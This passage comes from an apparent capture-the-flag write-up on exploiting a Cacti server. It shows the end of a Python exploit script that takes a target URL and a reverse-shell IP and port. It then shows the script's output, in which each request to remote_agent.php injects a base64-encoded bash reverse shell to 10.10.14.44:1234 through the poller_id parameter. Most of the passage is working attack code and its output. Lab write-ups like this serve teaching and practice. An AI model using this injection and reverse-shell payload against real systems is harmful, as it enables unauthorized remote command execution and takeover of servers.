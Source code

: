 ```
           "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
        ]
        return random.choice(ua_list)

def parse_args():
    import argparse
    
    argparser = argparse.ArgumentParser()
    argparser.add_argument("-u", "--url", help="Target URL (e.g. http://192.168.1.100/cacti)")
    argparser.add_argument("-p", "--remote_port", help="reverse shell port to connect to", required=True)
    argparser.add_argument("-i", "--remote_ip", help="reverse shell IP to connect to", required=True)
    return argparser.parse_args()

def main() -> None:
    # Open a nc listener (rs_host+rs_port) and run the script against a CACTI server with its LOCAL IP URL 
    args = parse_args()
    e = Exploit(args.url, rs_host=args.remote_ip, rs_port=args.remote_port)
    e.exploit()

if __name__ == "__main__":
    main()
```

When we create our listeren and then run the python script, we get a reverse shell at host_id=1 and local_data_id=6.

```bash
$ python3 cacti_exploit2.py -u http://10.10.11.211/ -i 10.10.14.44 -p 1234
http://10.10.11.211//remote_agent.php?action=polldata&local_data_ids[]=1&host_id=1&poller_id=1%3Becho%20YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY%2BL2Rldi90Y3AvMTAuMTAuMTQuNDQvMTIzNCA8JjEn%20%7C%20base64%20-d%20%7C%20bash%20- - 200 - [{"value":"79","rrd_name":"proc","local_data_id":"1"}]
http://10.10.11.211//remote_agent.php?action=polldata&local_data_ids[]=2&host_id=1&poller_id=1%3Becho%20YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY%2BL2Rldi90Y3AvMTAuMTAuMTQuNDQvMTIzNCA8JjEn%20%7C%20base64%20-d%20%7C%20bash%20- - 200 - [{"value":"1min:2.07 5min:1.24 10min:0.71","rrd_name":"","local_data_id":"2"}]
http://10.10.11.211//remote_agent.php?action=polldata&local_data_ids[]=3&host_id=1&poller_id=1%3Becho%20YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY%2BL2Rldi90Y3AvMTAuMTAuMTQuNDQvMTIzNCA8JjEn%20%7C%20base64%20-d%20%7C%20bash%20- - 200 - [{"value":"0","rrd_name":"users","local_data_id":"3"}]
http://10.10.11.211//remote_agent.php?action=polldata&local_data_ids[]=4&host_id=1&poller_id=1%3Becho%20YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY%2BL2Rldi90Y3AvMTAuMTAuMTQuNDQvMTIzNCA8JjEn%20%7C%20base64%20-d%20%7C%20bash%20- - 200 - [{"value":"2149344","rrd_name":"mem_buffers","local_data_id":"4"}]
http://10.10.11.211//remote_agent.php?action=polldata&local_data_ids[]=5&host_id=1&poller_id=1%3Becho%20YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY%2BL2Rldi90Y3AvMTAuMTAuMTQuNDQvMTIzNCA8JjEn%20%7C%20base64%20-d%20%7C%20bash%20- - 200 - [{"value":"1048572","rrd_name":"mem_swap","local_data_id":"5"}]
http://10.10.11.211//remote_agent.php?action=polldata&local_data_ids[]=6&host_id=1&poller_id=1%3Becho%20YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY%2BL2Rldi90Y3AvMTAuMTAuMTQuNDQvMTIzNCA8JjEn%20%7C%20base64%20-d%20%7C%20bash%20- - 200 - [{"value":"0","rrd_name":"uptime","local_data_id":"6"}]
http://10.10.11.211//remote_agent.php?action=polldata&local_data_ids[]=7&host_id=1&poller_id=1%3Becho%20YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY%2BL2Rldi90Y3AvMTAuMTAuMTQuNDQvMTIzNCA8JjEn%20%7C%20base64%20-d%20%7C%20bash%20- - 200 - []
```
